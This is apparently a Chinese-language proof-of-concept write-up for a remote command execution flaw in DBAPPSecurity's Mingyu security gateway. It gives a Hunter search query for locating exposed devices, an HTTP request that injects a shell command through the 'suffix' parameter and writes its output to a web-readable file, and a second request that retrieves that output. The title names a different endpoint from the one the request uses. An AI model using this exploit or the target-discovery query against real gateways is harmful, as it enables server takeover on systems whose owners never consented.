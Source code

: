 # 安恒明御安全网关aaa_portal_auth_local_submit存在远程命令执行漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关aaa_portal_auth_wchat_submit存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ 特征

![1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3.png](./img/pzDedjkOanQCgUGN/1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3-416578.png)

# 四、漏洞复现
```plain
GET /webui/?g=aaa_portal_auth_wchat_submit&suffix=;echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/stc.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd.png](./img/pzDedjkOanQCgUGN/1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd-056323.png)

获取命令执行结果

```plain
GET /sslvpn/stc.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405938768-9fa01d85-610c-4b95-a221-8a3363171080.png](./img/pzDedjkOanQCgUGN/1703405938768-9fa01d85-610c-4b95-a221-8a3363171080-647356.png)



> 更新: 2024-07-17 17:28:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pb2c1ioegdqi8aft>